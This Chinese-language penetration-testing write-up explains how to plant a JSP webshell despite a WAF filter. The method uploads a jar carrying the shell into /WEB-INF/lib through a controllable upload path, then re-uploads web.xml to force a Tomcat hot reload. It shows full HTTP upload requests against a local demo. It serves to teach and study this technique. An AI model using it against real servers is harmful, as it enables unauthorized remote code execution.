# 奇安信攻防社区-记一次过滤jsp的文件上传

### 记一次过滤jsp的文件上传

在某次对某单位进行渗透测试时，遇到一个上传点，网站是java写的，但是上传jsp和jspx时会被waf拦截，但由于上传路径可控，经过不懈努力最终成果拿到shell，于是写这篇文章记录一下

在某次对某单位进行渗透测试时，遇到一个上传点，网站是java写的，但是上传jsp和jspx时会被waf拦截，但由于上传路径可控，经过不懈努力最终成果拿到shell，于是写这篇文章记录一下

# 0x01 环境介绍

由于原来网站已经关闭了，所以我这几简单写了一个demo，实现了指定路径上传文件，但是过滤了jsp后缀名




当我们上传文件时，会自动上传到upload目录下





如果后缀名为jsp或者jspx则会被拦截



# 0x02 前置知识

在 Java web 应用程序中`/WEB-INF`目录通常是的一个特定目录，它用于存放与应用程序配置、安全性和资源管理相关的文件和目录，并且该目录下的资源文件无法直接通过浏览器访问



`/WEB-INF`下的一般有固定的名称和结构。

-   `/WEB-INF/web.xml` 配置文件，它包含有关应用程序的部署和配置信息。这包括 servlet 映射、过滤器配置、监听器配置、会话管理等。
-   `/WEB-INF/classes` 目录通常用于存放 Java 类文件，包括 servlet 类和其他应用程序特定的 Java 类。这些类文件在应用程序中可以被加载和调用。
-   `/WEB-INF/lib` 通常用于存放应用程序所需的外部 Java 库（JAR 文件）。这些库文件包含应用程序依赖的代码，例如框架、工具库和第三方库，应用程序的类加载器将从该JAR文件中加载相应的资源。

当使用某个类时，Web应用程序将尝试从/WEB-INF/classes加载该类，如果找不到，则尝试从/WEB-INF/lib下的JAR文件中搜索它。

在JAR文件的`/META-INF/resources`目录中可以用来放置JSP的静态资源，**在servlet3.0协议规范中，包含在jar文件 /META-INFO/resources/ 路径下的资源是可以直接访问的**。

例如在 Java web 应用程序的`/WEB-INF/lib`中添加一个jar包，在其`/META-INF/resources/`中有一个`index.html`



启动tomcat，请求的URL包含`/demo/index.html` ，会使用这个JAR文件中的`/META-INF/resources/index.html`，因为实际上在/demo/目录下不存在index.html。


# 0x03 利用过程

既然可以上传至任意路径，那么我们可以把webshell放在`/META-INFO/resources/`路径下打包成jar包，然后上传jar包到`/WEB-INF/lib`中

首先使用idea新建一个项目，生成器选择`Jakarta EE`，模板选择`库`



然后生成的模板中`demo2\src\main\resources`下新建目录`META-INF/resources`，然后在其下面放入webshell，这里我以打印一句话作为示例



然后运行`mvn package`构建项目并打包成jar包



然后发包将生成的jar上传至`/WEB-INF/lib`

```php
POST /demo/upload?uploadDirectory=/WEB-INF/lib HTTP/1.1
Host: 127.0.0.1:8082
Content-Type: multipart/form-data; boundary=----WebKitFormBoundary67oVSNngE4QsAxoK
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/117.0.0.0 Safari/537.36
Sec-Fetch-User: ?1
Cookie: JSESSIONID=3989AD45810239F4B46930C472A48DB7; 
Content-Length: 229

------WebKitFormBoundary67oVSNngE4QsAxoK
Content-Disposition: form-data; name="file"; filename="test.jar"
Content-Type: application/octet-stream

PK\x03\x04
......(省略)
\x00\x00\x08\x00\x00y\x8dPW\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00 \x00\x00\x00META-2\x00\x00V\x04\x00\x00\x00\x00
------WebKitFormBoundary67oVSNngE4QsAxoK--
```

（下图中上传文件使用的是yakit语法）



上传成功，但是现在直接访问`http://127.0.0.1:8082/demo/shell.jsp`会提示404



这是因为在Tomcat中重新加载位于`lib`目录中的JAR文件通常需要重启Tomcat服务器，因为`lib`目录中的JAR文件是在Tomcat启动时加载的，而不是在运行时可以动态重新加载的。

然而有一种方法：

默认情况下，`autoDeploy` 设置为 `true`，代表tomcat默认开启热部署，**一旦web应用的web.xml文件的时间戳发生变化（创建时间，修改时间或访问时间发生变化），tomcat就会重新加载应用。**

那怎样使web.xml文件时间戳发生变化呢？ 可以通过上传一个同名同内容的文件覆盖它，即在/WEB-INF目录下上传相同内容的web.xml

```php
POST /demo/upload?uploadDirectory=/WEB-INF HTTP/1.1
Host: 127.0.0.1:8082
Content-Type: multipart/form-data; boundary=----WebKitFormBoundary67oVSNngE4QsAxoK
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/117.0.0.0 Safari/537.36
Sec-Fetch-User: ?1
Cookie: JSESSIONID=3989AD45810239F4B46930C472A48DB7; 
Content-Length: 229

------WebKitFormBoundary67oVSNngE4QsAxoK
Content-Disposition: form-data; name="file"; filename="web.xml"
Content-Type: application/octet-stream

<?xml version="1.0" encoding="UTF-8"?>
<web-app xmlns="http://xmlns.jcp.org/xml/ns/javaee"
         xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"
         xsi:schemaLocation="http://xmlns.jcp.org/xml/ns/javaee http://xmlns.jcp.org/xml/ns/javaee/web-app_4_0.xsd"
         version="4.0">        
</web-app>
------WebKitFormBoundary67oVSNngE4QsAxoK--
```


当上传成功后可以观察到tomcat日志信息，成功重新加载应用


再次访问`http://127.0.0.1:8082/demo/shell.jsp`也成功解析


此外，由于可以该改变web.xml中的内容，所以如果可以寻找到未授权的危险类也可以直接在web.xml中添加路由调用对应的类。
